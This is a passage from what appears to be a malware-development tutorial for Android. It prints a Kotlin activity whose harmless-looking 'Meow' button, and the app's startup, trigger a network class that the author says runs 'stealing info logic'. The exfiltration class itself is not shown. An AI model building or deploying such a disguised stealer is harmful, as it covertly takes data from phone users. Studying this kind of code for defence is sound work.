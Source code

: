 ```kotlin
}
```

And the MainActivity logic is pretty simple (no need to request permissions in this case):    

```kotlin
package cocomelonc.hack

import android.os.Bundle
import androidx.activity.ComponentActivity
import android.widget.Button
import android.widget.Toast

class HackMainActivity : ComponentActivity() {
    private lateinit var meowButton: Button
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)
        meowButton = findViewById(R.id.meowButton)
        meowButton.setOnClickListener {
            Toast.makeText(
                applicationContext,
                "Meow! ♥️\uFE0F",
                Toast.LENGTH_SHORT
            ).show()
            HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F")
        }
        HackNetwork(this).sendTextMessage("Meow! ♥️\uFE0F")
    }
}
```

As you can see just clicking the `Meow` button is run stealing info logic.       

### demo

Let's go to see everything in action. Deploy and run on my virtual device:    
